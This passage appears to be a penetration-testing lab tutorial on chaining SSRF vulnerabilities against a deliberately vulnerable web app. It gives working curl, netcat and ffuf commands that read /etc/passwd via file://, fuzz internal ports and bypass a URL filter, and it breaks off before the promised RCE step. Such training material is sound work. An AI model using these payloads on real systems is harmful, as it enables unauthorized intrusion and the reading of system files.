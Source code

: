 In this example, we will be exploiting an internet-facing web application and work to get remote code execution on an internal host by chaining multiple SSRF vulnerabilities. The attack flow shall be as follows:
```
PENTESTER -> SSRF on Internet-facing App -> SSRF on Internal Web Server -> RCE on Local Web App.
```
First we issue a cURL request to the target server using the parameters `-i` to show the protocol response headers, `-s` to use the silent mode, and `-L` to follow any redirects.
```bash
curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
## Testing for SSRF
Then we confirm if the `q` parameter is vulnerable to SSRF by starting up a Netcat listener, as follows:
```bash
nc -nvlp 4444
```
```bash
curl -i -s "http://<TARGET IP>/load?q=http://<OUR IP>:4444"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```
## Confirming SSRF
Checking into our Netcat listener, we can see that the target application made a request, confirming a SSRF vulnerability.
```bash
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <OUR IP>:4444
User-Agent: Python-urllib/3.8
Connection: close
```
Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.
## Retrieve local file using FTP schema
We can test this functionality by requesting for the `/etc/passwd` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[TRIM]...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...[TRIM]...
```
## Port Scanning for Internal Apps using Ffuf
Next we will perform a port scan to look for any internal applications that we can exploit.

1. But first, we should generate a port wordlist using the following:
```bash
for port in {1..65535}; do echo $port >> ports.txt; done
```
2. We will then use Ffuf to fuzz for any open ports.
```bash
ffuf -w ports.txt -u "http://<TARGET IP>/load?q=http://127.0.0.1:FUZZ" -fs 30

...[TRIM]...
80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```
3. Confirm that port 5000 is working.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
## Attacking Internal Web App
Now that we know how to reach internal applications, we can now try attacking `internal.app.local` to try and achieve RCE on an internal host.
> Note: In the next steps, we are now issuing requests on behalf of `ubuntu-web` to `internal.app.local`.

1. Issue a simple cURL request to the internal application, we can use the `q` parameter on this one since we discovered earlier that it uses the same process to load resources.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
2. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL, instead of `http://` our request will now contain `http::////`.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>
```
> Note: For the purpose of this tutorial, we will assume ports `80` and `5000` is also open for the internal app, but for real world pentest, it is recommended to do another port scan to confirm which ports are open.
### Reading Internal Web App Source Code
Now we need to